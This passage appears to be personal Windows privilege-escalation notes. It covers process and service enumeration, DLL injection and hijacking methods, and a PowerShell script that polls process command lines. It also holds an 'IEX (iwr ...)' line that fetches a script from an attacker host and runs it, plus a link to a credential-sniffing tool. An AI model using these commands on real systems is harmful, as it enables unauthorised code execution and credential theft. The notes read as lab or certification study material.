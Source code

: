 - Enumerating Process ID

```powershell
get-process -Id 3324
```

- Enumerating Running Service

```powershell
get-service | ? {$_.DisplayName -like 'Druva*'}
```

#### DLL Injection 
#dll
 - LoadLibrary:
 - Manual Mapping:
 - Reflective DLL Injection : https://github.com/stephenfewer/ReflectiveDLLInjection
 - DLL Hijacking:

- The following listing shows the standard search order taken from the Microsoft Documentation:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

### Additional Techniques
#Additional_Technique
#### Interacting with Users

**Monitoring for Process Command Lines**

- Creating procmon.ps1 : 

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}

```

- Running Monitor Script :

```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

- Tools to analyse Traffic :
https://github.com/DanMcInerney/net-creds
